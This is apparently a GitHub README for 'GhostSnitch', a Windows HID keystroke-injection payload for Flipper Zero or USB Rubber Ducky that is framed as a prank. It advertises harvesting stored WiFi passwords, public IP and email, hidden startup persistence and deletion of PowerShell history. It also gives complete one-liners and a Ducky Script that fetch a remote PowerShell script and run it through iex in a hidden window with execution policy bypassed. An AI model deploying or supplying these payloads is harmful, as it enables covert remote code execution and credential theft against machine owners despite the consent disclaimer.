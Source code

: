 # 👻 GhostSnitch

**Version:** 1.0  
**Author:** I am TBJr  
**Platform:** Windows (7, 10, 11)  
**Delivery:** HID (Flipper Zero, USB Rubber Ducky, or manually via PowerShell)

---

## 🧠 What is GhostSnitch?

GhostSnitch is a **powerful prank payload** designed for use with **Flipper Zero** or other HID attack vectors. It collects light reconnaissance data from a Windows machine, then uses speech synthesis to roast the user based on their setup, and changes the desktop wallpaper to a steganographic image with a hidden message.

Once executed, it installs itself to run **stealthily on system startup**, ensuring the roast can live on...

---

## 🎯 Features

- 🔎 Gathers:
    - RAM capacity
    - Public IP
    - WiFi SSID & passwords
    - Password age
    - Connected email (if present)
- 🎤 Roasts the user using Windows' text-to-speech
- 🖼️ Changes wallpaper with a hidden stego message
- 👣 Waits for mouse movement before starting
- 🛠️ Installs itself with a scheduled task for persistence
- 🧹 Cleans up visual evidence (PowerShell history, temp files)

---

## 🚀 How to Use

### Option 1: Manually on Windows
1. Download the script:
    ```powershell
    iwr https://raw.githubusercontent.com/<your-username>/ghostsnitch/main/GhostSnitch_Stego.ps1 | iex
    ```

2. Sit back and enjoy the roast.

---

### Option 2: Flipper Zero / HID Payload
Create a Ducky Script file named `GhostSnitch.txt`:

```ducky
REM GhostSnitch Flipper Payload
REM Author: I am TBJr

GUI r
DELAY 500
STRING powershell -w h -NoP -NonI -Ep Bypass irm https://raw.githubusercontent.com/<your-username>/ghostsnitch/main/GhostSnitch_Stego.ps1 | iex
ENTER
```
Then copy it to your Flipper’s payloads folder and deploy it.

## 🧬 Example Roast
- 8 GB of RAM? Gamer vibes... if lag was a feature.
- Your public IP is 103.45.231.5. Say hi to the world for me.
- That password: hunter123 ... it's crying for help.
- Changed your password 180 days ago? That password's got mold on it.
- Gmail user? Stylish. But your inbox is probably chaos.

## 🖼️ Wallpaper with Hidden Message
The script generates a wallpaper that displays a roast message and appends a hidden line like:
```
StegoMessage: Curiosity sparked the fire. Satisfaction burned the cat.
```

## 📂 Files
- GhostSnitch_Stego.ps1: Main prank script with persistence + wallpaper steganography 
- GhostSnitch.txt: Flipper-ready Ducky Script HID payload 
- README.md: Project documentation

## ⚠️ Disclaimer
This tool is for educational and entertainment purposes only. Do not deploy it without explicit consent from the machine owner. Unauthorized use may violate local laws or regulations.

## 🙌 Acknowledgements
Inspired by the classic hacker spirit: “My crime is that of curiosity.”
---

## 🙏 Credits

This project is inspired by the original prank script **AcidBurn** by [I am Jakoby](https://github.com/I-Am-Jakoby).

GhostSnitch builds upon his idea with enhancements including:
- Refined roast logic
- Stealth persistence
- Steganographic wallpaper generation
- Flipper Zero HID deployment support

Much respect to the OG 🙌